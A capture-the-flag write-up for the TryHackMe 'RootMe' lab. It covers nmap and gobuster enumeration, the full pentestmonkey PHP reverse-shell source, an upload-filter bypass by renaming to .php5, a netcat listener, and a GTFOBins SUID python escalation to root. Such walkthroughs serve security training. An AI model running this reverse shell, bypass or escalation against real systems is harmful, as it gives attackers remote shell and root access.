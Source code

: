 # RootMe - THM
###  Difficulty level: Easy
------------------------------------------------------

I'll start by running nmap scan:
```bash
nmap -sV -sC 10.10.12.73 -oN scan.nmap
```


![image](https://user-images.githubusercontent.com/114166939/226315146-a7b150ac-c319-4da5-afbd-5d66906843e8.png)

Let's take a look on the website:

I'll run a brute-force attack on the url to find hidden directories:
```bash
gobuster dir -u http://10.10.12.73/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > dirs.txt
```
![image](https://user-images.githubusercontent.com/114166939/226315983-f670d517-b741-4bfc-8c97-820c1e5cdf21.png)

The "/panel" directory includes images upload system:

![image](https://user-images.githubusercontent.com/114166939/226316570-95810171-e5d0-4216-923d-8dbbcdcd283b.png)

I'll try to get a reverse shell by uploading an exploit to this system,
I'm going to use php code for reverse shell by "https://pentestmonkey.net/":
```php
  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '[MY-IP]';  // change this
  $port = [PORT];  // And this
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;
  
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
      fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }

  ?> 
```
I changed the IP and port and called this file "reverse.php" and now I'm going to upload it to the panel:

![image](https://user-images.githubusercontent.com/114166939/226318268-7abbee05-bc19-4640-a7e6-d93bb8649fbc.png)

It detected and blocked the file, so to pass this validation  I found this page: "https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass".

So I'll change the file name to:"reverse.php5" and let's try again!

![image](https://user-images.githubusercontent.com/114166939/226319215-cea89063-2462-4d5e-84cc-da804415d50a.png)

Now i can find the upload at "/uploads" directory.

![image](https://user-images.githubusercontent.com/114166939/226319479-90a95ccd-e8cc-4049-b199-6c976cfe0823.png)

First, I'll run a netcat listener:
```bash
nc -lnvp [PORT]
```

And now run the reverse shell from the "/uploads" directory,
Got a reverse shell as "www-data" user.

![image](https://user-images.githubusercontent.com/114166939/226320289-3bc03e06-ed7b-40ce-899d-b01f0dca4eae.png)

Now, I can find the user.txt flag which stored at "/var/www":

![image](https://user-images.githubusercontent.com/114166939/226320713-e422b773-2245-4686-aeb7-713225bee469.png)

To find the root.txt flag, I need to find a way to escalate my privileges and become the root user.

I'm going to search for SUID files with the command:
```bash
find / -user root -perm /4000 2>/dev/null
```
One of the most suspicious files in the output is "/usr/bin/python"

![image](https://user-images.githubusercontent.com/114166939/226321712-c3ab1b4b-fc18-4686-a623-a14eba96850d.png)

I'll search for a vulnerability for SUID binary python file on "https://gtfobins.github.io/".

Found the following command:
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
I'll enter to "/usr/bin" and run this command:

![image](https://user-images.githubusercontent.com/114166939/226322547-13b6e186-2cc7-4be9-ba31-3a1e2a3f4677.png)

Now all we need to do is enter the root directory and print the root.txt flag:

![image](https://user-images.githubusercontent.com/114166939/226325201-fd09f234-be21-4c33-8550-fcb9125bcb99.png)
